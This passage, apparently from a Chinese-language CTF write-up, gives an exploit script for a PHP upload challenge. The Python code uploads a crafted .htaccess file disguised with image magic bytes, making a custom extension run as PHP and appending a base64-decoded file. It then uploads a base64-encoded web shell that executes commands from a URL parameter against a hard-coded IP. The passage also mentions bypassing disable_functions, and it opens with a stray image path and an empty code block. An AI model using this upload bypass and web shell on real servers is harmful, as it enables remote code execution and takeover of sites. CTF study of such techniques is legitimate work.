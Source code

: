 ```python
```



题目的后半段为绕过disable_function







## 0x07 利用脚本



### 通用上传+文件类型绕过脚本

```python
import requests
import base64

url = "http://35.246.234.136/?"

header = {"Cookie":"PHPSESSID=58eshi3a265dguf0icnkc6qk5a"}

#这里是使用xxd查看的文件16进制
htaccess = b"""\x00\x00\x8a\x39\x8a\x39 
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/e694a9e3c406b3d8b247d73836958f6303ed7b72/shell.wuwu"
"""

shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_GET['c']);?>")

files = [('image',('.htaccess',htaccess,'application/octet-stream'))]

data = {"upload":"Submit"}

proxies = {"http":"http://127.0.0.1:8080"}
print("upload .htaccess")
r = requests.post(url=url, data=data, files=files,headers=header)#proxies=proxies)

# print(r.text) 

print("upload shell.wuwu")

files = [('image',('shell.wuwu',shell,'application/octet-stream'))]
r = requests.post(url=url, data=data, files=files,headers=header)
```





### php配置弱点检查脚本
